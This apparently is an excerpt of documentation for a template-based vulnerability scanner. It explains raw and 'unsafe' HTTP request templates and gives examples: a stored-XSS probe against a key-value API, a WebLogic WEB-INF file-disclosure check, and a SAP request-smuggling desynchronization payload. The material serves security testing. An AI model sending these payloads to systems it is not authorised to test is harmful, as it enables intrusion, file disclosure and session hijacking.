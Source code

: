 ```yaml
   PUT {{BaseURL}}/v1/kv/{{randstr}} HTTP/1.1
   Host: {{Hostname}}

   <!DOCTYPE html><script>alert(document.domain)</script>

 - |
   GET {{BaseURL}}/v1/kv/{{randstr}}%3Fraw HTTP/1.1
   Host: {{Hostname}}
```

## unsafe

Unsafe flag enables [rawhttp](https://github.com/projectdiscovery/rawhttp) client for sending HTTP requests which enables complete request controls and allows sending malformed requests for testing issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more. 

rawhttp library is disabled by default and can be enabled by including `unsafe: true` in the request block. Non-RFC compliant requests can only be sent by using `unsafe` flag. Unsafe feature only works with Raw requests and requires raw request to being with `|+` prefix.

```yaml
raw:
  - |+
```

Some examples of unsafe templates are provided below.

```yaml
# Detecting oracle weblogic LFI with unsafe requests
raw:
  - |+
    GET {{path}} HTTP/1.1
    Host: {{Hostname}}
payloads:
  path:
    - .//WEB-INF/weblogic.xml
    - .//WEB-INF/web.xml
unsafe: true
```

```yaml
# Detecting SAP Memory Pipes (MPI) Desynchronization with unsafe
raw:
  - |+
    GET {{sap_path}} HTTP/1.1
    Host: {{Hostname}}
    Content-Length: 82646
    Connection: keep-alive

    {{repeat("A", 82642)}}

    GET / HTTP/1.1
    Host: {{Hostname}}
payloads:
  sap_path:
    - /sap/admin/public/default.html
    - /sap/public/bc/ur/Login/assets/corbu/sap_logo.png
unsafe: true
```
